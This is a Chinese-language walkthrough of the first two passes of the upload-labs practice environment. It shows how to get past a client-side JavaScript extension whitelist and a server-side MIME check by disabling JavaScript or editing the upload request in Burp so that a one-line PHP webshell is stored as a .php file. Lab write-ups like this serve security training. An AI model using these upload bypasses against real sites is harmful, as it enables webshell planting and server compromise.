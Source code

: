 


## pass 01 客户端后缀检查
上传jpg文件成功,上传php文件失败,提示后缀问题.白名单检测.由于弹出错误很快,我们猜测是客户端校验
直接单击了'查看提示',知道了这个pass是本地js检查文件,可以本地修改.
### 方法一 firefox 开发者工具直接修改 待查?
f12->查看器
找到响应js部分(直接搜索jpg)

```
var allow_ext = ".jpg|.png|.gif";
```

直接添加,一个`|.php`.
理论上就可以上传了.但是上传失败,提示依旧

### 方法二 禁用js
直接禁用浏览器js功能,安装firefox插件`noscript`,禁用浏览器js.重试上传过程,成功

### 方法三 burp改包
把一句话木马后缀改为`.jpg`
burp代理好,点击上传.把劫到的包发送到,burp的repeater.

```
POST /upload-labs/Pass-01/index.php HTTP/1.1
Host: 192.168.96.128
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://192.168.96.128/upload-labs/Pass-01/index.php
Content-Type: multipart/form-data; boundary=---------------------------7020711924050
Content-Length: 297
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------7020711924050
Content-Disposition: form-data; name="upload_file"; filename="m.jpg"  //这里修改为`m.php`
Content-Type: image/jpeg
```
查看头,把`filename`改为`php`后缀.点击go,右边查看返回页面源码

```
<img src="../upload/m.php" width="250px" /> 
```
在一个`img`标签中找到我们上传的文件路径,看到文件已经变为`php`文件.

## pass2 服务端mime检查
本pass在服务端对数据包的MIME进行检查.

直接像pass1一样使用burpsuit修改.
